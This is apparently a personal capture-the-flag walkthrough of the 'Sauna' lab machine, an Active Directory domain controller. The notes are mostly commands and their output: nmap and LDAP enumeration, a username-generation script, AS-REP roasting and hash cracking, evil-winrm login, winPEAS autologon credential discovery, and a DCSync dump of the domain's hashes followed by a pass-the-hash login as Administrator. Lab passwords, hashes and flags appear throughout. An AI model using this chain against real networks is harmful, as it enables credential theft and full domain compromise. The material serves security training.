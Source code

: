 Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-20 23:04 EDT
Nmap scan report for 10.10.10.175
Host is up (0.13s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-05-21 10:08:09Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain:   , Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/20%Time=5EC5EFBA%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\                                        
SF:x04bind\0\0\x10\0\x03");                                                                                       
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows                                             
                                                                                                                  
Host script results:                                                                                              
|_clock-skew: 7h03m47s                                                                                            
| smb2-security-mode:                                                                                             
|   2.02:                                                                                                         
|_    Message signing enabled and required                                                                        
| smb2-time:                                                                                                      
|   date: 2020-05-21T10:10:34                                                                                     
|_  start_date: N/A                                                                                               
                                                                                                                  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                    
Nmap done: 1 IP address (1 host up) scanned in 318.11 seconds                                  




attempted enum4linux 
no smb
no workgroup or domain
no users

Domain Name: EGOTISTICALBANK
Domain Sid: S-1-5-21-2966785786-3096785034-1186376766



root@kali:~/Downloads/tools/kerbrute# ldapsearch -x -h 10.10.10.175 -p 389 -b “dc=EGOTISTICAL-BANK,dc=LOCAL”
# extended LDIF
#
# LDAPv3
# base <“dc=EGOTISTICAL-BANK,dc=LOCAL”> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 10 Referral
text: 0000202B: RefErr: DSID-03100835, data 0, 1 access points
        ref 1: 'local��
 �'

ref:: bGRhcDovL2xvY2Fs4oCdL+KAnGRjPUVHT1RJU1RJQ0FMLUJBTkssZGM9TE9DQUzigJ0=

# numResponses: 1





https://activedirectorypro.com/active-directory-user-naming-convention/

https://zflemingg1.gitbook.io/undergrad-tutorials/useful-commands/powershell


```
namelist = ['Fergus Smith', 'Shaun Coins', 'Sophie Driver', 'Hugo Bear', 'Bowie Taylor', 'Steven Kerb']

f = open('userspython.txt', 'w')

for name in namelist:
    name = name.split()

    f.write(name[0] + '.'+name[1]+'\n')
    f.write(name[0][0]+name[1]+'\n')
    f.write(name[0][0:2]+name[1]+'\n')
    f.write(name[0][0:3]+name[1]+'\n')
f.close()
```


python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile ~/Downloads/sauna/userpython.txt -format john -outputfile Sauna -dc-ip 10.10.10.175

john Sauna --wordlists=/usr/share/wordlists/rockyou.txt 

root@kali:~/Downloads/tools/impacket/examples# john Sauna -show
$krb5asrep$FSmith@EGOTISTICAL-BANK.LOCAL:Thestrokes23


ruby evil-winrm -i 10.10.10.175 -u FSmith -p Thestrokes23


1b5520b98d97cf17f24122a55baf70cf



ROOT

*Evil-WinRM* PS C:\Users\FSmith\Desktop> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            FSmith                   Guest
HSmith                   krbtgt                   svc_loanmgr


used winPEAS.bat

-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Files an registry that may contain credentials <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Searching specific files that may contains credentials.
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-inside-files
Looking inside HKCU\Software\ORL\WinVNC3\Password
Looking inside HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4/password
Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!


https://medium.com/@airman604/dumping-active-directory-password-hashes-deb9468d1633

python3 secretsdump.py -just-dc-ntlm EGOTISTICALBANK/svc_loanmanager@Moneymakestheworldgoround!
doesnt work


python3 secretsdump.py -just-dc-ntlm EGOTISTICALBANK.LOCAL/svc_loanmgr@10.10.10.175
password: Moneymakestheworldgoround!
```
root@kali:~/Downloads/tools/impacket/examples# python3 secretsdump.py -just-dc-ntlm EGOTISTICALBANK.LOCAL/svc_loanmgr@10.10.10.175
Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:bf5124294cc4c12217741f1eb7d01104:::
[*] Cleaning up... 
```

root@kali:~/Downloads/tools/evil-winrm# ruby evil-winrm.rb -i 10.10.10.175 -u Administrator -p d9485863c1e9e05851aa40cbb4ab9dff

doesnt work because we are given a hash, not a password


root@kali:~/Downloads/tools/evil-winrm# ruby evil-winrm.rb -i 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff

rooted!
f3ee04965c68257382e31502cc5e881f

d9485863c1e9e05851aa40cbb4ab9dff


https://medium.com/secstudent/using-john-the-ripper-with-lm-hashes-f757bd4fb094